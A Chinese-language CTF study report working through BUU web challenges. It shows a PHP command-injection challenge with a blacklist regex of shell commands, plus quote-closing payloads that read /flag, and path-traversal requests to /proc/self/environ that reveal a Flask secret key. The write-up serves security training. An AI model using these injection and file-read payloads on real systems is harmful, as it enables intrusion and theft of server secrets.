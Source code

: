 # Nepnep学习报告 web第五周

- BUU 题目复现
- php 反序列化学习
- 代码审计 

## EasyBypass

源码

```php
<?php
highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];

if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

本地测一下, 主要是网上还有一个正则解析, 第一个基本没过滤, 第二个根本没法用, file就是一个幌子可以直接分号(`;`)闭合掉, 然后就是闭合下面添加的双引号, 发现 windows 和 linux 判断不一样, 但是linux如下是可以闭合的

```
?comm1=index.php";dir /;"&comm2=
```

最后一步禁用了 flag 标志, 用赋值的方式绕过, 或者 ? 代替

```
?comm1=index.php";a=g;tac /fla$a;"&comm2=
?comm1=index.php";tac /fla?;"&comm2=
```

## [HFCTF 2021 Final]easyflask

给了源码

```
file?file=/app/source
file?file=/proc/self/environ
secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh
```
